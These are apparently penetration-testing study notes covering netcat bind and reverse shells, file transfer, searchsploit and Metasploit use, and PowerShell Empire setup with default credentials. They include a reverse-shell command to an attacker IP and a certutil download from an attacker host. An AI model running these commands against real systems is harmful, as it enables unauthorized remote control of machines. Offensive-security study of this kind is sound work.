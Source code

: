 - github.com/offensive-security/exploit-bin-sploits

## Bind and Reverse Shells
### netcat
- nc -nv <target-ip> <port>
- nc -nvu <target-ip> <port> for udp port connect
- ls -al /usr/share/windows-binaries/ where the nc.exe is stored
- python -m SimpleHTTPServer 80
- certutil -urlcache -f http://<attacker-ip>/nc.exe
- setting listener
- nc -lvnp <port>
- conneting
- nc -nv <target-ip> <port>
- to send file on target system
- setup listener on target system
- nc -lvnp 80 > test.txt
- now start the connection and send
- nc -nv <target-ip> < test.txt
- 
### Bind Shell
- /bin/bash, cmd.exe OR powershell.exe
- listing on Windows: nc -lvnp <port> -e(windows)/-c(linux) cmd.exe
- connecting via linuc: nc -nv <target-ip> <port>
- 

### Reverse Shell
- listing on linux system: nc -lvnp <port> 
- connecting via windows system: nc -nv <attacker-ip> <port> -e cmd.exe
### linux Cheat Sheet
- seisskyrepo/PayloadsAllTheThings/Methodology and Resources/Reverse Shell CheatSheet
- Revshell.com revershell generator

## Exploitation Metasploit Frameworks
- nmap use default credential of process maker
- searchsploit processmaker
- searchsploit -m 29325
- msfconsole and exploit
### Poweshell Empire
- starkiller is a frontend GUI for Powershell
- sudo powershell-empire server
- sudo powershell-empire client
- listeners, agents
- starkiller
- http://localhost:1337
- empireadmin
- password123
- create Listener
- create a stager
- agents
- interact Windows7
- 
